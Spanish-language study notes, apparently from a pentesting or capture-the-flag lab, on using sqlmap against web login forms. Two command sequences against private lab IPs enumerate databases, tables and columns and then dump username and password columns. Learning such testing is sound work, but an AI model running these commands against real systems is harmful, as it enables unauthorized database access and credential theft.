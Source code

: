 ## [[SQLMAP]]

### 1.

Es una herramienta que nos permite de forma automatizada realizar explotación de vulnerabilidades de inyección SQL

El primer parámetro a probar es encontrar las bases de datos existentes
`sqlmap -u http://192.168.1.102/administrator/ --forms --dbs --batch`

Ahora en el segundo paso obtendremos las tablas de la base de datos Webapp
`sqlmap -u http://192.168.1.102/administrator/ --forms -D Webapp --tables --batch`

Como tercer punto querremos ver las columnas que contienen las tablas
`sqlmap -u http://192.168.1.102/administrator/ --forms -D Webapp -T Users --colum --batch`

Lo ultimo que habría que hacer es volcar todo
`sqlmap -u http://192.168.1.102/administrator/ --forms -D Webapp -T Users -C username,password --dump  --batch`

### 2.

Si no vemos ningún puerto abierto que alberge ninguna base de datos puede ser que no este expuesta en la red, si al navegar a la IP nos encontramos algún tipo de panel de login es que hay una base de datos.
Usaremos [[SQLMAP]]

Primero buscamos las bases de datos
`sqlmap -u http://172.17.0.2 --forms --dbs --batch`

Segundo buscamos las tablas dentro de la base de datos
`sqlmap -u http://172.17.0.2 --forms -D register --tables  --batch`

Tercero buscamos las columnas dentro de las tablas
`sqlmap -u http://172.17.0.2 --forms -D register -T users --colum --batch`

Cuarto sacamos los datos de dentro de la columna
`sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,usename --dump --batch`

